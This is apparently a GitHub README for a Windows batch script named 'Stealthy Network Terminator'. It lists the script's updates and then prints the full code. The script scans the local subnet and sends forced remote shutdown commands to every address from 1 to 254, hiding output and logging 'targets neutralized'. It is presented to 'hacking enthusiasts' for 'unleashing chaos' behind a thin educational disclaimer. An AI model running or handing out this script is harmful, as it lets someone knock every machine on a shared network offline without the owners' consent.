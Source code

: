 
# Stealthy Network Terminator - Updated Version

This document outlines the updates and enhancements made to the Stealthy Network Terminator (SNT) script, improving its functionality, robustness, and clarity.

## Updates and Enhancements

1. **Log File Setup:**
   - A log file is created to record all activities performed by the script. This includes successes, failures, and other important events, aiding in auditing and troubleshooting.

2. **Space Removal from IP Address:**
   - Spaces are removed from the local IP address string to ensure proper formatting and functionality.

3. **Improved IP Address Retrieval:**
   - The command for retrieving the local IP address is updated to include the `/i` switch for case-insensitive matching, ensuring compatibility with different systems.

4. **Enhanced Error Handling:**
   - Additional checks are implemented to handle cases where the local IP address or network range cannot be retrieved, providing clear error messages and aborting the script if necessary.

5. **Summary Display:**
   - A summary section at the end of the script displays the total number of successful and failed shutdown attempts. This provides a quick overview of the script's impact on the network.

6. **Success and Error Counters:**
   - Separate counters (`success_count` and `error_count`) are used to track the number of successful and failed shutdown commands, respectively.

7. **Detailed Comments:**
   - Additional comments are included throughout the script to explain the purpose and functionality of each section, making it easier to understand and maintain.

8. **Stealth and Efficiency:**
   - The script includes messages indicating when it is entering and exiting stealth mode, enhancing its narrative style and making it clear when the script is actively performing operations.

9. **Removed Null Redirects from Comments:**
   - Log entries are now directly written to the log file, and console output is redirected to `nul` for shutdown commands to maintain stealth.

## Script Breakdown

```batch
@echo off
setlocal enabledelayedexpansion

REM Stealthy Network Terminator - Developed by FLUFFY

REM This script is for educational purposes only. Misuse for malicious intent is illegal.

REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
REM It silently infiltrates your local network, wreaking havoc with a single click.

REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.

REM Get ready to unleash chaos! Initiating SNT...

REM Log file setup
set "logfile=%~dp0SNT_log.txt"
echo SNT Execution Log - %date% %time% > "%logfile%"
echo ======================================== >> "%logfile%"

REM Get local IP address
for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr /i "IPv4"') do (
    set "local_ip=%%i"
)
set "local_ip=%local_ip: =%" REM Remove spaces

if "%local_ip%"=="" (
    echo Failed to retrieve local IP address. Aborting operation. >> "%logfile%"
    echo Failed to retrieve local IP address. Aborting operation.
    exit /b 1
)

echo Local IP Address: %local_ip% >> "%logfile%"

REM Extract network range
for /f "tokens=1,2,3 delims=." %%a in ("%local_ip%") do (
    set "network_range=%%a.%%b.%%c."
)

if "%network_range%"=="" (
    echo Failed to extract network range. Aborting operation. >> "%logfile%"
    echo Failed to extract network range. Aborting operation.
    exit /b 1
)

echo Network Range: %network_range%0 >> "%logfile%"

REM Initiating shutdown sequence for all devices in the network range
echo Stealth mode activated... Engaging the SNT... >> "%logfile%"
echo Stealth mode activated... Engaging the SNT...
set "error_count=0"
set "success_count=0"

for /L %%i in (1,1,254) do (
    set "ip=%network_range%%%i"
    shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
    if errorlevel 1 (
        echo Failed to send shutdown command to !ip!... Evading detection. >> "%logfile%"
        set /a "error_count+=1"
    ) else (
        echo Shutdown command sent to !ip!... Target neutralized. >> "%logfile%"
        set /a "success_count+=1"
    )
)

REM Display summary
echo. >> "%logfile%"
echo Summary: >> "%logfile%"
echo ===================== >> "%logfile%"

if %error_count% gtr 0 (
    echo %error_count% devices failed to shut down... Potential resistance detected. >> "%logfile%"
    echo %error_count% devices failed to shut down... Potential resistance detected.
) else (
    echo All devices in the network range have received shutdown command... Network domination achieved! >> "%logfile%"
    echo All devices in the network range have received shutdown command... Network domination achieved!
)

echo %success_count% devices were successfully shut down. >> "%logfile%"
echo Terminating SNT... Exit stealth mode and return to the shadows. >> "%logfile%"
echo Terminating SNT... Exit stealth mode and return to the shadows.

pause
```

These improvements make the script more robust, informative, and easier to follow, while maintaining its functionality.
